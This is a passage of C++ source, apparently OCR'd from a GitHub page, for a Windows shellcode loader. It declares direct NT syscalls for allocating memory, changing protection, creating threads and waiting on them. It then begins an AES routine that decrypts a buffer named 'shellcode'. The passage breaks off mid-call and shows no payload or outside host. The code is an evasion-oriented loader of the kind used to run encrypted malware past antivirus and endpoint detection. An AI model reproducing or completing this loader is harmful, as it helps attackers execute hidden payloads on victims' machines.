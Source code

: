 ```cpp
	PVOID* BaseAddress,
	ULONG_PTR ZeroBits,
	PSIZE_T RegionSize,
	ULONG AllocationType,
	ULONG Protect
);
EXTERN_C NTSTATUS NtProtectVirtualMemory(
	IN HANDLE ProcessHandle,
	IN OUT PVOID* BaseAddress,
	IN OUT PSIZE_T RegionSize,
	IN ULONG NewProtect,
	OUT PULONG OldProtect);

EXTERN_C NTSTATUS NtCreateThreadEx(
	OUT PHANDLE hThread,
	IN ACCESS_MASK DesiredAccess,
	IN PVOID ObjectAttributes,
	IN HANDLE ProcessHandle,
	IN PVOID lpStartAddress,
	IN PVOID lpParameter,
	IN ULONG Flags,
	IN SIZE_T StackZeroBits,
	IN SIZE_T SizeOfStackCommit,
	IN SIZE_T SizeOfStackReserve,
	OUT PVOID lpBytesBuffer
);
EXTERN_C NTSTATUS NtWaitForSingleObject(
	IN HANDLE Handle,
	IN BOOLEAN Alertable,
	IN PLARGE_INTEGER Timeout
);

void DecryptAES(char* shellcode, DWORD shellcodeLen, char* key, DWORD keyLen) {
	HCRYPTPROV hProv;
	HCRYPTHASH hHash;
	HCRYPTKEY hKey;
	if (!CryptAcquireContextW(&hProv, NULL, NULL, PROV_RSA_AES,
		CRYPT_VERIFYCONTEXT)) {
		printf("Failed in CryptAcquireContextW (%u)\n", GetLastError());
		return;
	}
	if (!CryptCreateHash(hProv, CALG_SHA_256, 0, 0, &hHash)) {
		printf("Failed in CryptCreateHash (%u)\n", GetLastError());
		return;
	}
	if (!CryptHashData(hHash, (BYTE*)key, keyLen, 0)) {
		printf("Failed in CryptHashData (%u)\n", GetLastError());
		return;
	}
	if (!CryptDeriveKey(hProv, CALG_AES_256, hHash, 0, &hKey)) {
		printf("Failed in CryptDeriveKey (%u)\n", GetLastError());
		return;
	}
	if (!CryptDecrypt(hKey, (HCRYPTHASH)NULL, 0, 0, (BYTE*)shellcode,
